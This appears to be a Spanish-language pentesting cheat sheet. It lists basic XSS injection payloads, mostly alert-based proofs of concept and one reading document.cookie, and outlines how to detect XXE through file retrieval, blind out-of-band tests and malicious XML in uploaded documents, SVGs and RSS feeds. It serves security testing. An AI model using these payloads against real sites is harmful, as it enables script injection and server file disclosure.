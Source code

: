    Cross-site scripting (XSS) es un  tipo de vulnerabilidad de seguridad informática que normalmente se  encuentra en las aplicaciones web.  XSS permite a los atacantes inyectar secuencias de comandos del lado del cliente en páginas web vistas por otros usuarios. 

   ### Basico

```html
'';!--"<XSS>=&{()}
<script>alert(1)</script>
<script>+-+-1-+-+alert(1)</script>
<script>+-+-1-+-+alert(/xss/)</script>
%3Cscript%3Ealert(0)%3C%2Fscript%3E
%253Cscript%253Ealert(0)%253C%252Fscript%253E
<svg onload=alert(1)>
"><svg onload=alert(1)>
<iframe src="javascript:alert(1)">
"><script src=data:&comma;alert(1)//
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
%5B'-alert(document.cookie)-'%5D
%5B'-alert(document.cookie)-'%5D
```

## Como detectar XXE

La inyección de entidad externa  XML (también conocida como XXE) es una vulnerabilidad de seguridad web  que permite a un atacante interferir con el procesamiento de datos XML  de una aplicación.  A menudo, permite que un atacante vea archivos en el sistema de archivos del servidor de aplicaciones e interactúe con  cualquier sistema externo o de back-end al que pueda acceder la propia  aplicación.         

Muchos XXE los podremos detectar con el programa de Burpsuite.

Para realizar pruebas manuales lo que tendremos que hacer sera:

1. Probar [la recuperación de archivos ](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files)mediante la definición de una entidad externa basada en un archivo de sistema  operativo conocido y el uso de esa entidad en los datos que se devuelven en la respuesta de la aplicació
2. Probar [vulnerabilidades XXE ciegas ](https://portswigger.net/web-security/xxe/blind)definiendo una entidad externa basada en una URL a un sistema que usted controla y monitoreando las interacciones con ese sistema

**Mas maneras de detectarlo:**

```
La carga de archivos permite docx/xlsx/pdf/zip, descomprimir el paquete y agregar su código xml maligno en los archivos xml.
```

```
Si se permite svg en la carga de imágenes, puede inyectar xml en svgs.
```

```
Si la aplicación web ofrece fuentes RSS, agregue su código milicioso en el RSS.
```
